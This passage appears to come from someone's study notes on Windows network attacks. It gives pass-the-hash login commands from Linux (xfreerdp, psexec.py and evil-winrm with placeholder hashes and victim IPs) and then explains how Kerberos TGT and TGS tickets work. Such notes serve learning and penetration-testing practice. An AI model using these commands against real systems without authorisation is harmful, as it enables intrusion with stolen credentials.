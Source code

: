 *Note:*
	If you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.


### Passing the Hash Using Linux:
If you have access to a linux box several tools have built-in support to perform PtH using different protocols. Depending on which services are available to you, you can do the following:

- _Connect to RDP using PtH:_
```shell-session
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

- _Connect via psexec using PtH:_
```shell-session
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

- _Connect to WinRM using PtH:_
```shell-session
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

# Kerberos Authentication
Let's have a quick look at how Kerberos authentication works on Windows networks:

1. The user sends his username and a timestamp encrypted using a key derived from his password to the **Key Distribution Center (KDC)**, a service usually installed on the Domain Controller in charge of creating Kerberos tickets on the network.
    
    The KDC will create and send back a **Ticket Granting Ticket (TGT)**, allowing the user to request tickets to access specific services without passing their credentials to the services themselves. Along with the TGT, a **Session Key** is given to the user, which they will need to generate the requests that follow.
    
    Notice the TGT is encrypted using the **krbtgt** account's password hash, so the user can't access its contents. It is important to know that the encrypted TGT includes a copy of the Session Key as part of its contents, and the KDC has no need to store the Session Key as it can recover a copy by decrypting the TGT if needed.
    ![](Pasted%20image%2020241116212526.png)
2. When users want to connect to a service on the network like a share, website or database, they will use their TGT to ask the KDC for a **Ticket Granting Service (TGS)**. TGS are tickets that allow connection only to the specific service for which they were created. To request a TGS, the user will send his username and a timestamp encrypted using the Session Key, along with the TGT and a **Service Principal Name (SPN),** which indicates the service and server name we intend to access.
    
    As a result, the KDC will send us a TGS and a **Service Session Key**, which we will need to authenticate to the service we want to access. The TGS is encrypted using the **Service Owner Hash**. The Service Owner is the user or machine account under which the service runs. The TGS contains a copy of the Service Session Key on its encrypted contents so that the Service Owner can access it by decrypting the TGS.
    ![](Pasted%20image%2020241116212554.png)
3. The TGS can then be sent to the desired service to authenticate and establish a connection. The service will use its configured account's password hash to decrypt the TGS and validate the Service Session Key.
	![](Pasted%20image%2020241116212618.png)
